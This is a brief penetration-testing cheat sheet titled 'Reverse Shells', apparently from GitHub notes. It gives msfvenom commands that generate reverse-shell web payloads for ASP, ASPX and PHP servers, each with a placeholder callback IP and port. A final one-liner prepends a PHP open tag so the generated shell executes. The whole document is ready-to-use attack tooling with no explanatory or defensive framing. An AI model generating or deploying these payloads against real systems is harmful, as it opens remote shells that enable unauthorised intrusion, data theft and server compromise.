 # Reverse Shells

## 01 - ASP

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x64.asp
```

## 02 - ASPX

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx
```

## 03 - PHP

PHP reverse callback shell

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php
```

PHP with perl code reverse callback shell

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php
```

After generating the PHP reverse callback shell include the tags to ensure execution.

```
$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php
```
